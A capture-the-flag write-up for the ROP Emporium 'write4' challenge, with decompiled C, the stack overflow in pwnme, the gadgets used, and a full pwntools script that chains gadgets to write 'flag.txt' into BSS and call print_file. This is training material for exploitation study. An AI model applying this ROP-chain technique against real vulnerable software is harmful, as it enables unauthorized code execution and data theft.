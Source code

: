 # Write4

## Reversing with Ghidra

### main
```c
int main() {
  pwnme();
  return 0;
}
```

### pwnme
```c
void pwnme() {
  char input[32];
  
  puts("write4 by ROP Emporium");
  puts("x86_64\n");
  memset(input, 0, 0x20);
  puts("Go ahead and give me the input already!\n");
  printf("> ");
  read(0, input, 0x200);
  puts("Thank you!");
}
```

### print_file
```c
void print_file(char *file_name) {
  char buf[40];
  FILE *file;
  
  file = 0;
  file = fopen(file_name, "r");
  
  if (file == 0) {
    printf("Failed to open file: %s\n", file_name);
    exit(1);
  }

  fgets(buf, 0x21, file);
  puts(buf);
  fclose(file);
  
  return;
}
```

## The vuln
A `Buffer Overflow` on the stack and a couple of cool gadgets, give us arbitrary write.

[Vulnerable code (pwnme function)](#pwnme)

To make our lifes easier, there's [this](#print_file) function taking a file's name as parameter, which dumps the file content on stdout.

## The exploit
We can use `ropper` or similar tools to find some useful gadgets. The following gadgets can be what we're searching for:

```assembly
0x0000000000400693: pop rdi; ret;
0x0000000000400690: pop r14; pop r15; ret;
0x0000000000400628: mov qword ptr [r14], r15; ret;
```

The first one can be used to `pop` things in `rdi` (used as first parameter for functions)
The second one can be used to pop things on `r14` and `r15`.
The third one (in combination with the second one) can be used to obtain arbitrary write: the content of `r15` is moved into the memory pointed by the address stored in `r14`.

Moving in `r14` a writable address (e.g. an address inside the `BSS` segment) we can store here the string `flag.txt`, then is possible to call `print_file` with the selected writeable address as parameter.

## The script
```py
from pwn import *

#
# Context
#

e = context.binary = ELF('write4')

#
# Offset
#

io = process(e.path)
io.sendlineafter(b'> ', cyclic(0x200))
io.wait()
core = io.corefile
io.close()

offset = cyclic_find(core.read(core.rsp, 4))

info(f'Offset: {offset}')

#
# ROP
#

PRINT_FILE      = p64(e.plt['print_file'])

POP_RDI         = p64(next(e.search(asm('pop rdi; ret;'))))
POP_R14_R15     = p64(next(e.search(asm('pop r14; pop r15; ret;'))))
DEREF_R15_R14   = p64(next(e.search(asm('mov qword ptr [r14], r15; ret;'))))

BSS_WRITE       = p64(e.bss(offset=0x200))

#
# Exploit
#

io = process(e.path)

payload  = b''
payload += b'A' * offset

payload += POP_R14_R15
payload += BSS_WRITE
payload += b'flag.txt'
payload += DEREF_R15_R14
payload += POP_RDI
payload += BSS_WRITE
payload += PRINT_FILE

io.sendlineafter(b'> ', payload)

print(io.recvrepeat(1).decode())
```